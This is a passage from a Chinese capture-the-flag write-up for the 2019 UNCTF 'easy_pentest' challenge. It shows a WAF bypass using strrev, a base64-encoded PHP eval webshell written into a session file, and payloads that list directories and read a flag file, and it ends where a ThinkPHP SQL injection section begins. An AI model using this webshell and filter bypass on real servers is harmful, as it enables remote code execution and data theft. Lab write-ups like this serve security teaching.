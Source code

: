 但是waf拦截了php等关键字，所以还需要绕过。filter其实是可以传递多个的，同时参数为参数引用。可通过strrev反转函数来突破限制。


##### 3.利用

第一步通过设置session，将webshell写入到session中在包含利用，payload为：

```
abPD9waHAgQGV2YWwoYmFzZTY0X2RlY29kZSgkX0dFVFsnciddKSk7Oz8%2bab
<?php @eval(base64_decode($_GET['r']));;?>
```


如图：

![](https://ctfwp.wetolink.com/2019unctf/easy_pentest/20191007010634495_3110.png)

第二步通过webshell列出home目录，payload为：

```
var_dump(scandir("/home"));
dmFyX2R1bXAoc2NhbmRpcigiL2hvbWUiKSk7
```

获取到home目录底下的flag文件名字，如图：

![](https://ctfwp.wetolink.com/2019unctf/easy_pentest/20191007011410830_14019.png)

第三步读取flag，payload为：

```
echo(readfile("/home/flag_1sh3r3.txt"));
ZWNobyhyZWFkZmlsZSgiL2hvbWUvZmxhZ18xc2gzcjMudHh0IikpOw==
```

如图：

![](https://ctfwp.wetolink.com/2019unctf/easy_pentest/20191007011921707_19231.png)

##### 4.通过exp获取flag

执行get_flag.py , 传入网站地址和端口。 例如`python get_flag.py 192.168.232.144:88` 运行后获取到flag

如图：

![](https://ctfwp.wetolink.com/2019unctf/easy_pentest/20191007025804693_13219.png)

**参考**

+ Phithon：https://www.leavesongs.com/PENETRATION/php-filter-magic.html

+ 水泡泡：https://xz.aliyun.com/t/6106

### easy_sql_injection
#### 原理知识
改自ThinkPHP 的历史漏洞
#### 解题过程
首先打开首页：

